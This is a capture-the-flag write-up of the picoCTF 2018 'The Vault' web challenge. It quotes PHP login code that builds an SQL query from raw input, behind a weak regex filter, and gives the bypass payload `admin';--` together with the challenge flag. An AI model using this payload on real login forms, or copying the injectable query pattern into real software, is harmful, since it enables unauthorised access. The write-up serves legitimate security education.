

# The Vault
Web - 250 Points - 1775 Solves (10/12/2018)

> There is a website running at http://2018shell1.picoctf.com:56537. Try to see if you can login!

## Solution
Upon visiting the website, we're greeted with a simple login page, which includes a link to the website's source code.



Here's the source code:
```php
<?php
  ini_set('error_reporting', E_ALL);
  ini_set('display_errors', 'On');

  include "config.php";
  $con = new SQLite3($database_file);

  $username = $_POST["username"];
  $password = $_POST["password"];
  $debug = $_POST["debug"];
  $query = "SELECT 1 FROM users WHERE name='$username' AND password='$password'";

  if (intval($debug)) {
    echo "<pre>";
    echo "username: ", htmlspecialchars($username), "\n";
    echo "password: ", htmlspecialchars($password), "\n";
    echo "SQL query: ", htmlspecialchars($query), "\n";
    echo "</pre>";
  }

  //validation check
  $pattern ="/.*['\"].*OR.*/i";
  $user_match = preg_match($pattern, $username);
  $password_match = preg_match($pattern, $username);
  if($user_match + $password_match > 0)  {
    echo "<h1>SQLi detected.</h1>";
  }
  else {
    $result = $con->query($query);
    $row = $result->fetchArray();

    if ($row) {
      echo "<h1>Logged in!</h1>";
      echo "<p>Your flag is: $FLAG</p>";
    } else {
      echo "<h1>Login failed.</h1>";
    }
  }

?>
```

After reading the code, we can conclude that this is a basic SQL injection challenge with a small twist. A regex match blocks any attempts of using a payload with `' OR` in it, so the typical `' OR 1=1;-- ` login bypass would not work in this case.

To avoid this caveat, simply construct a payload without `OR` in it:

```
Username: admin';--
Password: [anything]
```

The server will then execute the following query:

```sql
SELECT 1 FROM users WHERE name='admin';-- ' AND password=''
```

... and grant us access to admin.

## Flag
```
picoCTF{w3lc0m3_t0_th3_vau1t_c09f30a0}
```

## More Write-ups
- https://ctftime.org/task/6803

